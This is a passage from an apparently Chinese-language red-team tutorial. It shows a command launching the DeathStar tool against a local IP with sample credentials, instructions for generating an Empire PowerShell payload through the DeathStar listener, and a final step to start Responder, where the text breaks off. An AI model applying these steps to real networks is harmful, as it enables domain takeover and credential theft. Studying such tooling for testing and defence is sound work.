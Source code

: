 ```plain
python3 DeathStar.py -lip 192.168.188.129 -t 100 -u username -p 123456
```

[![](assets/1701222524-16c2ce85d321c1ba4db7f18dfbfab9b8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144550-c4f0540a-8db9-1.png)  
Step 3：在empire中生成powershell，此时你会发现多了一个名为DeathStar的listener，之后我们使用该listener来生成powershell代码：

[![](assets/1701222524-fd6d597d9ea9b0ee292410452c857d63.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144610-d0907894-8db9-1.png)  
Step 4：启动responder
